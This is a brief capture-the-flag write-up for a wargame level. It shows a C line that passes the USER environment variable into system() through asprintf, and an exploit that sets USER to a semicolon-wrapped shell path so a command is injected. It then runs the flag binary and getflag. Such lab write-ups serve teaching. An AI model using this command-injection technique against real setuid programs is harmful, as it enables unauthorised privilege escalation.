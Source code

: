 ## level02

Vulnerability at line since we can control the buffer that will be executed by the system function with the environment variable $USER</br>

```
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```


Can be exploited by changing the env variable USER like:
```
export USER=";/bin/bash/;"
```

Now execute the level
```
./flag02
getflag
```

### flag

```
You have successfully executed getflag on a target account 
```
